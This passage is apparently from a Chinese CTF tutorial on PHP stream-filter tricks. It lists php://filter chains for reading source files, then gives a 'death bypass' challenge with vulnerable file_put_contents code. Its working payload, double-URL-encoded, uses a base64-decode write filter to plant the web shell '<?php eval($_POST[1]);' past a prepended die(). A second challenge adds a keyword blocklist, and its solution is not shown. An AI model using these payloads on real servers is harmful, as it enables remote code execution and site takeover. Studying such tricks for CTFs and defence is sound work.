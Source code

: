类似的

```python
php://filter/read=convert.iconv.utf-8.utf-16be/resource=GWHT.php
php://filter/read=convert.quoted-printable-encode/resource=GWHT.php
php://filter/read=string.rot13/resource=b.php
php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
```

更多编码方式：

[https://www.php.net/manual/zh/mbstring.supported-encodings.php](https://www.php.net/manual/zh/mbstring.supported-encodings.php)

### 死亡绕过

题目源码：

```python
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

payload：

```python
GET：file=%2570%2568%2570%253a%252f%252f%2566%2569%256c%2574%2565%2572%252f%2577%2572%2569%2574%2565%253d%2563%256f%256e%2576%2565%2572%2574%252e%2562%2561%2573%2565%2536%2534%252d%2564%2565%2563%256f%2564%2565%252f%2572%2565%2573%256f%2575%2572%2563%2565%253d%2561%252e%2570%2568%2570
file=php://filter/write=convert.base64-decode/resource=a.php
POST：content=11PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==

其中PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==是"<?php eval($_POST[1]);"的base64编码。前面的11是为了填充"<?php die('大佬别秀了');?>"
```

### 死亡绕过2

```php
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

